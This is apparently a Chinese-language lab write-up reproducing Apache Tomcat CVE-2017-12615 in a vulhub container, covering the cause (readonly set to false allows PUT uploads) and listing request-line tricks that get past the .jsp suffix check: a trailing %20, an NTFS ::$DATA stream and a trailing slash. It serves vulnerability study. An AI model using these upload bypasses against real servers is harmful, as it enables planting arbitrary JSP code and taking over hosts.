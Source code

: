 #### 影响范围

Apache Tomcat7.0.0-7.0.81（默认配置）

#### 复现

这边我用vulhub

```php
sudo service docker start 
cd vulhub/tomcat/CVE-2017-12615
sudo docker-compose build
sudo docker-compose up -d
```

![1619279493073](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f1bcd9ec7e8b6802eaf12492b17ab61334e3b4ec.png)

去底层看看源码

```php
sudo docker ps
sudo docker exec -ti a3 bash
cat conf/web.x ml |grep readonly
```

![1619279550159](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6956bbc7092e246e65455113f74b90efe84a122e.png)

![1619279602920](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a9e0284732269d9ae28d8186df941649a66bfa4e.png)

#### 漏洞原理

产生是由于配置不当（非默认配置），将配置文件`conf/web.x ml`中的 `readonly`设置为了 false，导致可以使用PUT方法上传任意文件，但限制了jsp后缀，不过对于不同平台有多种绕过方法

#### 开始复现

抓包 改位PUT 上传方式

![1619279695848](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fc2d8c48612810fabd2d0ab632de2d2db4b6d63a.png)

去上传目录看看

```php
/usr/local/tomcat/webapps/ROOT
```

![1619279779246](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f1b40de612cb8652145db3481694fc39f7adf204.png)

成功上传

##### 绕过，成功上传jsp

```php
1.Windows下不允许文件以空格结尾
以PUT /a001.jsp%20 HTTP/1.1上传到 Windows会被自动去掉末尾空格
2.WindowsNTFS流
Put/a001.jsp::$DATA HTTP/1.1
3. /在文件名中是非法的，也会被去除（Linux/Windows）
Put/a001.jsp/http:/1.1
```
